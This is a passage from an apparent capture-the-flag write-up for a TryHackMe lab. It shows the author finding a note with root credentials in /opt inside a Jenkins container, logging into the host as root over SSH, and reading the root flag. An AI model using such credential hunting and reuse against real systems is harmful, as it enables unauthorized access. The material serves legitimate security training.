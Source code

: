 
As I was manually looking around on the host, I found a file with credentials on /opt.
```console
jenkins@jenkins:/home$ ls -la /opt
total 12
drwxr-xr-x 1 root root 4096 Aug  3 03:31 .
drwxr-xr-x 1 root root 4096 Aug  3 03:07 ..
-rw-r--r-- 1 root root  204 Aug  3 03:31 note.txt
jenkins@jenkins:/home$ cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:<root-redacted_creds>
```
So, I tried to login on the host box as root with the creds above using SSH and we login.
```console
local@local:~/Documents/tryhackme/internal$ ssh root@10.10.4.68
root@10.10.4.68's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov 29 14:01:31 UTC 2020

  System load:  0.0               Processes:              123
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 43%               IP address for eth0:    10.10.4.68
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Reading root flag
```console
root@internal:~# cat root.txt 
THM{d***r_d******r}
````